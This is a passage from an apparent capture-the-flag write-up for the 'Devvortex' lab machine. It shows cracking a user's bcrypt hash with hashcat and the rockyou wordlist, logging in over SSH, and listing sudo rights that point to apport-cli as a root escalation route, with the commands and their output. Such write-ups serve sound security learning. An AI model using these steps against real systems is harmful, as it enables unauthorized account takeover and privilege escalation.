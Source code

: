 Now, we crack the `logan` hashed password using `hashcat`.
Fisrt, we save the hashed password in the `hash.txt` file, then we execute `hashcat`:

```
hashcat -a 0 -m 3200 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

After a while...

### logan

With the `logan` password we can perform a new lateral movement and connect as `logan` using `ssh`:

```
ssh logan@10.10.11.242
```

### User flag

We can get our user flag now:

```
cat user.txt
```

## Privilege escalation

We check our sudo cappabilities and we find that we can execute `/usr/bin/apport-cli` as root:

```
logan@devvortex:~$ sudo -l
[sudo] password for logan:
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

We take a look and we can see that the binary is used to report crash records:

```
logan@devvortex:~$ sudo /usr/bin/apport-cli --help
Usage: apport-cli [options] [symptom|pid|package|program path|.apport/.crash file]

Options:
  -h, --help            show this help message and exit
  -f, --file-bug        Start in bug filing mode. Requires --package and an
                        optional --pid, or just a --pid. If neither is given,
                        display a list of known symptoms. (Implied if a single
                        argument is given.)
  -w, --window          Click a window as a target for filing a problem
                        report.
  -u UPDATE_REPORT, --update-bug=UPDATE_REPORT
                        Start in bug updating mode. Can take an optional
                        --package.
  -s SYMPTOM, --symptom=SYMPTOM
                        File a bug report about a symptom. (Implied if symptom
                        name is given as only argument.)
  -p PACKAGE, --package=PACKAGE
                        Specify package name in --file-bug mode. This is
                        optional if a --pid is specified. (Implied if package
                        name is given as only argument.)
  -P PID, --pid=PID     Specify a running program in --file-bug mode. If this
                        is specified, the bug report will contain more
                        information.  (Implied if pid is given as only
                        argument.)
  --hanging             The provided pid is a hanging application.
```